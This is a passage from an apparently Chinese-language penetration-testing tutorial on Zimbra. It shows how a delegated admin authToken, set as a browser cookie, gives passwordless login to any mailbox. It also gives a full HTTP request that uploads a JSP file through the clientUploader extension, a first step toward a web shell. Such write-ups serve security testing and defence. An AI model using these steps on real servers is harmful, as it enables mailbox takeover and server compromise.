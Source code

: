 返回的结果如下：

```     
<soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope"><soap:Header><context xmlns="urn:zimbra"/></soap:Header><soap:Body><DelegateAuthResponse xmlns="urn:zimbraAdmin"><authToken>XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX</authToken><lifetime>3600000</lifetime></DelegateAuthResponse></soap:Body></soap:Envelope>
```

提取出`authToken`值可以用于邮箱登录，登录方法如下：

进入Zimbra邮箱登录的Web页面，添加以下Cookie信息：

Name：`ZM_AUTH_TOKEN`
Value：`XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX`

在登录页面输入邮箱用户名称，不需要输入口令，点击登录

Chrome浏览器添加Cookie的方法：

在Chrome浏览器中按下`F12`，开启开发者工具，选择`Application`标签

依次打开`Storage`->`Cookies`

## 0x03 通过clientUploader插件向服务器上传文件
---

这里需要注意上传文件的操作需要在请求头(Request Headers)中设置`Content-Type`为`multipart/form-data; boundary=${boundary}`，格式示例：

```
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary1abcdefghijklmno
```

完整的数据包格式示例：

```
POST /service/extension/clientUploader/upload HTTP/1.1
Host: mail.xx.com
Proxy-Connection: keep-alive
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.132 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary1abcdefghijklmno
Content-Length: 400
Cookie:ZM_ADMIN_AUTH_TOKEN=0_530bf417d0f3e55ed628e4671e44b1dea4652bab_69643d33363a65306661666438392d313336302d313164392d383636312d3030306139356439386566323b6578703d31333a313535343835323934303131393b61646d696e3d313a313b
Upgrade-Insecure-Requests:1

------WebKitFormBoundary1abcdefghijklmno
Content-Disposition:form-data;name="file";filename="test.jsp"
Content-Type: image/jpeg

test12345
------WebKitFormBoundary1abcdefghijklmno--
```
